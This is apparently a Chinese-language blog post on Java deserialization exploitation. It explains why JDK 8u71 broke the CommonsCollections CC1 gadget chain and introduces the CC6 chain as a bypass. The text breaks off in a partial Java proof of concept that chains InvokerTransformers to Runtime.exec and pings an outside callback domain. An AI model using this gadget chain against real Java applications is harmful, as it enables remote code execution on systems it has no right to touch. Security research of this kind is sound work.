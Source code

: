 ```yaml
---
layout: mypost
title: "最实用的链-CommonCollections6链"
categories: [Java安全]
---
```


## 前言

非标题党，CC6 确实整个 CC 链中最好用的、最通用的，是为了解决⾼版本 Java 的利⽤问题。

研究 CC1 开始之际，配置环境就是安装的 Java 8u71 之前的 JDK 版本，CC1 的 EntryClass（AnnotationInvocationHandler）是在 sun 包下的，这是 JDK 自带的代码，只有在 8u71 之前的 JDK 版本它的这个类才会出现漏洞，而 8u71 之后的版本就修复了这个问题，详情见下-->

![alt text](image-94.png)

可以看到修复之后的代码中已经不存在`memberValue.setValue(xxx)`这行代码了，CC1 中走 TransformedMap 那条链算是被彻底修复，再看走 LazyMap 那条链子，查看堆栈调用情况，它的 entrySet 方法也确实能触发 invoke-->

![alt text](image-96.png)

但此时的 memberValues 不再是 LazyMap 的实例了，而是如下这个-->

![alt text](image-97.png)

调试器切换到 JDK8u65，看一下此时的 memberValues（这里项目结构没改，看的是反编译的文件）

![alt text](image-95.png)

通过对比可以发现 memberValues 的值被换掉了，所以这条链也不行了，至此 JDK 版本升级后彻底修复了 CC1 漏洞。

## 另辟蹊径

根据上述分析，CC1 不仅对 CommonCollections 的版本有要求，也对 JDK 的版本有要求，有没有办法绕过对 JDK 版本的限制，CC6 这条链给出了答案。CC6 前面和 CC1 是一样的，都是到 LazyMap 那里-->

```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;
import java.util.HashMap;
import java.util.Map;

public class Example {
    public static void main(String[] args) throws Exception {
        Class<?> clazz = Class.forName("java.lang.Runtime");
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(clazz),
                new InvokerTransformer(
                        "getMethod",
                        new Class[]{String.class, Class[].class},
                        new Object[]{"getRuntime", new Class[0]}
                ),
                new InvokerTransformer(
                        "invoke",
                        new Class[]{Object.class, Object[].class},
                        new Object[]{null, new Object[0]}
                ),
                new InvokerTransformer(
                        "exec",
                        new Class[]{String.class},
                        new Object[]{"ping 6y7d5.cxsys.spacestabs.top"}
```
